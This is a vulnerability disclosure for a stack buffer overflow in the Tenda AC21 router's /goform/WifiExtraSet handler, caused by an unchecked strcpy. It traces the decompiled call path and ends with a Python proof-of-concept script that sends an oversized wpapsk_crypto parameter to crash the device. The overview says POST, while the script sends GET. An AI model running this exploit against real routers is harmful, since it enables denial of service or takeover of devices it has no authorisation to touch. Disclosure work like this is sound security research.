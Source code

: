## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information



**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC21

**Affected firmware version:** <= V16.03.08.16

**Firmware download address:** [AC21 升级软件_腾达Tenda官方网站](https://www.tenda.com.cn/material/show/3742)

### Overview

A buffer overflow vulnerability was discovered on the latest version of the Tenda AC21 router, V16.03.08.16, where an attacker sent a well-crafted http post packet to the request path /goform/WifiExtraSet, triggering a denial of service attack or even RCE, specifically via the function strcpy(tkip_aes, tkip_aes_1); because there is no bounds check on tkip_aes, causing a stack overflow

## Vulnerability details

It can be found that the values of the wl_mode and wifi_chkHz are taken here, and if the if judgment is met, you can enter the sub_45CD64 function

![](img/1.png)

When var=1, it will enter the sub_45CAD8 function to perform subsequent operations

![](img/2.png)

Subsequently, it will enter the sub_45BB10 function to execute the subsequent logic

![](img/3.png)

When wpapsk_crypto is not tkip&aes, the strcpy function will be triggered to cause the buffer overflow

![](img/4.png)

## POC

```py
import requests

def generate_overflow_data():
 
    padding = b"X" * 6
    
    exploit_data = padding 
    
    return exploit_data

def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {
    "wifi_chkHz": "1",
    "wl_mode": "wisp",
    "wl_enbale": "1",        
    "ssid": "123456",
    "wpapsk_key": "1",
    "security": "wpapsk",
    "wpapsk_type": "wpa&wpa2",
    "wpapsk_crypto": b"a"*0x64,
    "mac": data         
}

   

    
    # Send the malicious request twice (as in original)
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)
  
    
    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    # Target endpoint
    target_url = "http://192.168.102.145/goform/WifiExtraSet"
    
    # Generate overflow payload
    malicious_payload = generate_overflow_data()
    
    # Execute the attack
    execute_overflow(target_url, malicious_payload)
```

![](img/5.png)

![](img/6.png)